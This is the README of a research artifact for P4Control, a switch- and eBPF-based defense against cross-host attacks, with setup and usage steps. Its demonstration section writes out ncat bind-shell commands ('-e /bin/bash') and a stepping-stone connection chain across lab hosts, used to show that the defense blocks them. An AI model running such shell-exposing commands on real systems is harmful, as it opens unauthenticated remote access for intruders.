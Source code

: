 # P4Control

This repository contains the artifacts for the paper titled "P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF", accepted at 45th IEEE Symposium on Security and Privacy (IEEE S&P / Oakland), 2024. For questions, please reach out to [Osama Bajaber](mailto:obajaber@vt.edu).

## Dependencies
- Python 3.7 
- Tofino Switch SDE 9.7.0
- BCC (Linux 5.15.0)
- Bison 3.8.2
- Flex 2.6.4
- Scapy 2.4.5

## Setup
Current settings assume three hosts are linked to the Tofino switch, each assigned with the following IP addresses and labels. (feel free to adjust these settings as per your topology)
- ```Host1```, 10.0.0.1, Label={HOST1}
- ```Host2```, 10.0.0.2, Label={HOST2}
- ```Host3```, 10.0.0.3, Label={HOST3}

## How to use

### Run P4 Switch program
Make sure you have installed the Tofino switch SDE and set the environment variables ```SDE=~/bf-sde-9.7.0/``` and ```SDE_INSTALL=~/bf-sde-9.7.0/install```

Step 1: Build the P4 program
```
./p4_build.sh -p switch/p4control.p4
```

Step 2: Run the switch program in the Tofino switch
```
./run_switchd.sh -p p4control
```

Step 3: Start the control plane
```
python3 switch/controller.py
```

This will load ```P4Control``` in the designated Tofino switch and run the control plane. The current control plane code inserts the needed ```NetCL``` policies to block traffic between ```Host1``` and ```Host3```.

### Run eBPF-based host agent

Now, as the switch program is running, load the eBPF host agent to the hosts. We tested the host agent on Ubuntu 20.04.1 LTS, but it should work with other versions. Make sure to update the correct interface name in ```host_agent/host_agent.py```.

Step 0: ```host_agent/host_agent_ebpf.c``` provides the ability to manually label a specific PID with a custom DIFC label for easy configuration

In your opened terminal, check the PID of the current bash process by executing the following
```
 ps
```
 
Copy the PID of the bash process to the defined ```TAGGED_TERMINAL``` variable at the top of ```host_agent/host_agent_ebpf.c```
```
u32 TAGGED_TERMINAL = <PID>;
```

Step 1: Run the host agent in all three hosts. The following command will attach all the needed eBPF programs inside the kernel
```
python3 host_agent/host_agent.py
```

### Perform a cross-host attack

To perform a cross-host attack from Host1 to Host3, using Host2 as a stepping stone

Step 1: In ```Host2``` and ```Host3```, start a ```ncat``` listener 
```
sudo ncat -nlvp 9999 -e /bin/bash
```

Step 2: From ```Host1```, connect to ```Host2```
```
sudo ncat 10.0.0.2 9999
```

Step 3: From ```Host1``` establish a session to ```Host3``` through ```Host2```
```
ncat 10.0.0.3 9999
```

P4Control will block the last connection as the label {Host1} is detected.

### Compile ```NetCL``` rules

To compile ```NetCL``` rules

Step 1: Run the following command
```
./netcl-compile -i <netcl_rules> -o <compiled_rules>
```

### Run custom tools

To use the custom tools to send and receive customized packets with DIFC headers

Step 1: At the receiving host, run the following to start sniffing packets
```
python3 custom-receive.py
```

Step 2: At the sending host, run the following command to send the custom packet
```
python3 custom-send.py <destination_IP> <label> <tracker> <message>
```


## Cite the paper

If you like or use our work, please cite us using:

```
@INPROCEEDINGS {bajaber2024p4control,
author = {O. Bajaber and B. Ji and P. Gao},
title = {P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF},
booktitle = {IEEE Symposium on Security and Privacy (S\&P)},
year = {2024},
pages = {146-146},
}
```
